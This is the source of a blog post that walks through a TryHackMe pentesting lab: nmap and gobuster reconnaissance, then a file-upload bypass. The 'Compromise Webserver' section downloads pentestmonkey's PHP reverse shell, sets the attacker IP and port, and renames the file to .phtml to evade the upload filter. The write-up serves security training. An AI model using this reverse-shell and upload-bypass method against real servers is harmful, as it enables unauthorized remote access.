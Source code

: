 ```yaml
---
layout: post
title:  "TryHackMe Offensive Pentesting Path"
date:   2022-08-16
categories: 
---
```


{% capture details %}
* **Scan Target:** 
	* <code class="custom">
$ nmap -sV 0.0.0.0 <br>
-sV: Probe open ports to determine service/version info <br>
-0.0.0.0: IP address of target
</code>

	* | PORT | STATE | SERVICE | VERSION |
|:-----|:------|:--------|:--------|
| 3333/tcp | open | http | Apache httpd 2.4.18 ((ubuntu)) |
{: .customTable}

* **Discover Directories**
	* <code class="custom">
$ gobuster dir -u http://0.0.0.0:3333 -w /usr/share/wordlists/dirb/common.txt <br>
-u: Target URL <br>
-w: Wordlist
</code>

	* | DIRECTORY | STATUS |
|:----------|:-------|
|/internal  | 301    |
{: .customTable}

* **Visit URL**
	* ![Target URL Port 3333](/assets/targetPort3333.png){: .customImage}
{% endcapture %}
{: .section}
{% capture summary %} 
Reconnaissance :artificial_satellite:
{% endcapture %}{% include details.html %}

{% capture details %}
* Create and attempt to upload file with *.php* extension
	* ![Upload shell.php](/assets/uploadShellphp.png)

* Create custom extension-list to test what file extensions can be uploaded
	*  <code class="custom">
$ cat phpext.txt <br>
.php <br>
.php3 <br>
.php4 <br>
.php5 <br>
.phtml 
</code>

* Use Burp Suite to enumerate through extensions and find out which ones are allowed

* Get PHP Reverse Shell from *pentestmonkey*
	* <code class="custom">
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br><br>
Modify 'ip' and 'port' variables to your host machine's IP and netcat port you will use, respectively <br>
$ip = '127.0.0.1';  // CHANGE THIS <br>
$port = 1234;       // CHANGE THIS <br>
</code>

* Rename reverse shell file extension to allowed extension
	* <code class="custom">
$ mv php-reverse-shell.php php-reverse-shell.phtml
</code>

{% endcapture %}
{: .section}
{% capture summary %} 
Compromise Webserver
{% endcapture %}{% include details.html %}